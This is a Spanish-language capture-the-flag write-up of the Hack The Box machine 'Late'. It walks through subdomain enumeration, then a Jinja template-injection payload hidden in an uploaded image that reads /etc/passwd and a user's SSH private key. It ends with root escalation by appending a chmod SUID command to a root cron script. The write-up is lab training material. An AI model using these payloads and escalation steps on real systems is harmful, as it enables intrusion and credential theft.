 ```yaml
---
layout: single
title: Late - Hack The Box
excerpt: "Para resolver esta máquina, enumeramos sub-dominios encontrándonos con un sub-dominio que convierte en texto las imagenes a través del framework Flask, abusamos la subida de estás imagenes, para que a la hora de subir una imagen inyectar código malicioso en ésta, es decir un SSTI, logrando así enumerar usuarios válidos del sistema, posteriormente la clave privada SSH de uno, por último abusamos de una tarea cron qué Root ejecuta cada cierto tiempo un script en Bash qué tenemos permisos de escritura, pero al tener el atributo append-only debemos modificar el código de una manera distinta, logrando así darle permisos SUID a la bash mediante ésta tarea CRON."
date: 2023-11-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-late/late_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - subdomain enumeration
  - abusing Upload File - Image to Text Flask Utility
  - SSTI
  - reading files through SSTI - SSH Private Key
  - Abusing Cron Job (Privilege Escalation)

---
```


![](/assets/images/htb-writeup-late/late_logo.png)

Para resolver esta máquina, enumeramos sub-dominios encontrándonos con un sub-dominio que convierte en texto las imagenes a través del framework Flask, abusamos la subida de estás imagenes, para que a la hora de subir una imagen inyectar código malicioso en ésta, es decir un SSTI, logrando así enumerar usuarios válidos del sistema, posteriormente la clave privada SSH de uno, por último abusamos de una tarea cron qué Root ejecuta cada cierto tiempo un script en Bash qué tenemos permisos de escritura, pero al tener el atributo append-only debemos modificar el código de una manera distinta, logrando así darle permisos SUID a la bash mediante ésta tarea CRON.

# PortScan
________
```
# Nmap 7.93 scan initiated Mon Nov 27 17:44:00 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.11.156
Nmap scan report for 10.10.11.156
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 025e290ea3af4e729da4fe0dcb5d8307 (RSA)
|   256 41e1fe03a5c797c4d51677f3410ce9fb (ECDSA)
|_  256 28394698171e461a1ea1ab3b9a577048 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 27 17:44:10 2023 -- 1 IP address (1 host up) scanned in 9.80 seconds
```

# WebSite
____

![](/assets/images/htb-writeup-late/Pasted image 20231127182726.png)

Enumerando posibles directorios & viendo el código fuente no encontré nada interesante, así que decidí enumerar posibles **sub-dominios** para éste dominio.

```bash
gobuster vhost -u http://late.htb/ -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -k
===============================================================
===============================================================
Found: images.late.htb (Status: 200) [Size: 2187]
```

descubriendo así un sub-dominio "**images.late.htb**", hacemos virtual hosting metiendo éste en el "**/etc/hosts**", una vez tengamos esto podemos ingresar al sub-dominio, encontrándonos con ésto.

![](/assets/images/htb-writeup-late/Pasted image 20231127183209.png)

Viendo qué podemos convertir imágenes a texto, esto con el framework "**Flask**" qué está escrito en python.

Creamos una imagen con un texto básico ésto con la ayuda de "**libreoffice**" y "**scrot**" para tomar la captura.

1. Abrimos el "**libreoffice**" y ponemos un texto para tomarle captura.
![](/assets/images/htb-writeup-late/Pasted image 20231127183421.png)

2. Corremos el "**scrot**" con un tiempo de espera para que nos de chance a volver al **"libreoffice"** y tomar la captura.
```bash
sleep 3; scrot -s capture.png
```

y tendríamos la captura del texto en "**libreoffice**" en capture.png.
![](/assets/images/htb-writeup-late/Pasted image 20231127183606.png)

Procedemos a subir ésta imagen a ver sí esta fuente logra interpretarla correctamente.

![](/assets/images/htb-writeup-late/Pasted image 20231127183908.png)

Vemos lo está interpretando, como está corriendo un **Flask**, se me ocurre probar un **SSTI** con una operación básica de multiplicación a ver si logra interpretarlo...

1. Ponemos una operación básica en el "**libreoffice**"
![](/assets/images/htb-writeup-late/Pasted image 20231127184101.png)

2. Tomamos la captura con "scrot"
```bash
sleep 3; scrot -s capture.png
```


Una vez con la captura, la subimos para ver los resultados...

![](/assets/images/htb-writeup-late/Pasted image 20231127184356.png)
Estamos logrando llevar a cabo el **SSTI**, así que se me ocurre aprovecharnos de esto para llevar a cabo una lectura de archivos de la máquina y ver el "**/etc/passwd**".
![](/assets/images/htb-writeup-late/Pasted image 20231127193325.png)
```bash
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Así que con "**scrot**" tomo una captura de ésto y la subo, viendo como resultado el contenido del "**/etc/passwd**".

como vemos en el "**result.txt"**
![](/assets/images/htb-writeup-late/Pasted image 20231127194153.png)

Viendo un usuario válido del sistema, por lo qué se me ocurre ver si está la clave privada **SSH** expuesta para éste usuario, en **"/home/svc_acc/.ssh/id_rsa"**
![](/assets/images/htb-writeup-late/Pasted image 20231127195153.png)

vemos qué está expuesta, así que procedemos a conectarnos con **SSH** desde nuestra máquina, pero primero debemos quitarles las etiquetas "**< p >**"
para posterior a ello conectarnos tal que así:
```bash
mv results.txt id_rsa
ssh -i id_rsa svc_acc@10.10.11.156

```

![](/assets/images/htb-writeup-late/Pasted image 20231127195853.png)


# Escalada de Privilegios
___

con el binario de [pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1), no los enviamos a la máquina víctima desde un servidor python y le damos permisos de ejecución en la máquina víctima.
![](/assets/images/htb-writeup-late/Pasted image 20231127202232.png)

Vemos que **root**, está asignándole un atributo -**"a"** al script "**ssh-alert.sh**".

![](/assets/images/htb-writeup-late/Pasted image 20231127202450.png)

Vemos en los permisos que podemos editarlo, se me ocurre de primera darle permisos **SUID** a la bash ya que ROOT lo ejecuta.. pero nos deniega el permisos, esto por el atributo **"-a"**, que es "**append-only**", es decir, sólo podemos modificar el archivo metiéndole contenido desde append, es decir **>>**, sabiendo ésto.

1. en "**tmp**", creamos un archivo con contenido dentro que de permisos SUID a la Bash.
```
nano privesc.txt
```
2. Contenido del "**privesc.txt**"
```bash
chmod u+s /bin/bash
```

3. metemos el contenido de "privesc.txt" a "ssh-alert.sh":
```bash
cat privesc.txt >> /usr/local/sbin/ssh-alert.sh
```

4. Esperamos a qué se vuelva ejecutar la tarea CRON y ya la bash tendría SUID.
![](/assets/images/htb-writeup-late/Pasted image 20231127203036.png)

